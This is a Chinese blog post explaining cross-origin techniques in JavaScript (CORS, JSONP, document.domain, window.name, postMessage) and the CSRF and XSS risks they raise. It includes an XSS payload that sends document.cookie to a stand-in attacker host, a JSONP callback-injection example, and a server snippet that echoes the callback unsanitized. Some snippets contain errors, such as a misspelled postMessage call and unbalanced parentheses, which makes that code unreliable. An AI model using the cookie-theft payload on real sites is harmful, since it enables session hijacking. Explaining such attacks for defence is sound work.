 ```yaml
---
layout: post
title: 浅谈js跨域问题
date: 2015-09-23
author: "Jenny"
tags: [javascript,xss,csrf,跨域]
---
```


> 所谓跨域，或者异源，是指主机名（域名）、协议、端口号只要有其一不同，就为不同的域（或源）。浏览器中有一个基本的策略，叫同源策略，即限制“源”自A的脚本只能操作“同源”页面的DOM。

先聊一下w3c的***CORS规范***：

> CORS旨在定义一种规范让浏览器在接收到从提供者获取资源时能够决定是否应该将此资源分发给消费者作进一步处理。

具体如下：

1. 消费者发送一个Origin报头到提供者端：`Origin: http://www.a.com`；

2. 提供者发送一个Access-Control-Allow-Origin响应报头给消费者，如果值为*或Origin对应的站点，则表示同意共享资源给消费者，如果值为null或者不存在Access-Control-Allow-Origin报头，则表示不同意共享资源给消费者；

3. 浏览器根据提供者的响应报文判断是否允许消费者跨域访问到提供者源。

要解决跨域的问题，有以下几种方法：

<h4>1、通过Jsonp跨域</h4>

对于一段JavaScript脚本来说，其“源”与它存储的地址无关，而取决于脚本被加载的页面，例如我们在页面中使用<script>引入存储在其他域的脚本文件：

`<script src="http://www.a.com/index.js"></script>`

这里脚本与当前页面是同源的。除了<script>，还有<img>、<iframe>、<link>等都具有跨域加载资源的能力。

Jsonp正是利用这种特性来实现跨域的：在页面中引入要跨域访问的来源，并定义回调函数处理跨域访问得到的json数据。如：

```
<script>
function handleData(data) {
    //处理数据
}
</script>
<script src="http://www.a.com/getData.do?callback=handleData"></script>
```

也可以使用jquery封装的方法，如$.ajax:

```
<script>
function hadnleData(data) {
    //处理数据
}
$.ajax({
    url: 'http://www.a.com/getData.do?callback=?',
    type: "GET",
    dataType: "jsonp",
    jsonpCallback: "handleData"
});
</script>
```

当然还需要服务端配合处理：

```
String handleData = request.getParameter("callback");//客户端的回调函数
out.println(handleData+"("+resultJSON+")");//返回jsonp格式数据
```

<h4>2、修改document.domain来跨子域</h4>

www.a.com/1.html和a.com/2.html是不同域的，要使他们可以跨域访问，可通过修改document.domain来实现，即在两个页面中都设置：

`document.domain="a.com";`

需要注意的是document.domain只能往父级修改，如a.com改为www.a.com是不被允许的，这也是此方法的局限性，只使用于跨子域访问。

<h4>3、使用window.name来跨域访问</h4>

window.name是同一浏览器窗口下载入的所有页面共享的数据字段，所有窗口都可以读写此字段的内容。所以假设a.com要访问b.com的数据，只需要在b.com中将数据放在window.name中，然后a.com从中取出即可。此方法适用于像iframe这样的嵌套页面架构。

<h4>4、使用HTML5的window.postMessage方法</h4>

假设要在a.com和b.com页面之间传递数据：

```
//a.com页面
window.postMesssage(JSON.stringify({xxx:'test'},'b.com');
//b.com页面
window.onMessage=function(e){
    var data = JSON.parse(e.data);
    console.log(data); //{xxx:'test'}
}
```

下面谈一下跨域访问的一些安全性问题，主要是CSRF和XSS攻击问题。

<h4>1、CSRF/XSRF攻击</h4>

网上找到一个大神发的图，贴在这里观摩观摩：

![](/img/cross-domain/1.png)

其实就是危险网站B在自己网站上贴了网站A的某个接口链接（a标签或form提交是支持跨域的），引导用户点击（骗取用户cookie）去访问网站A，祸因在于用户登录了A在不注销的情况下登录了B。解决方法有很多，如验证码，表单附加随机数等，原理基本都是校验登录方的请求令牌。

如果使用跨域访问可以更简单的进行CSRF攻击（当然也有相应的防范措施），当某网站通过JSONP方式来跨域传递用户认证后的敏感信息时，攻击者可以构造恶意的JSONP调用页面，诱导被攻击者访问来达到截取用户敏感信息的目的。（这里有一个微博股吧CSRF攻击的[例子](https://www.91ri.org/13407.html)）

目前比较好的防止CSRF攻击的方法是***referer过滤校验+token验证***，即服务端检测JSON文件调用来源和检查token数据是否匹配。

<h4>2、XSS攻击（XSS注入）</h4>

此攻击方法类似sql注入，即提交含有恶意脚本的数据到服务器，从而达到破坏页面甚至盗取cookie伪装登录等目的。例如，在a.com/index.ftl中有如下代码：`欢迎你，${username}`，这时恶意网站b.com传递参数：

`username=<script>window.open(“www.b.com?param=”+document.cookie)</script>`

这样就轻而易举地盗取了用户的cookie值了。

在jsonp跨域访问中，xss注入主要是callback参数注入，如：

`<script src="http://www.a.com/getData.do?callback=<script>alert('xss');</script>"></script>`

防止措施是对参数进行校验过滤。
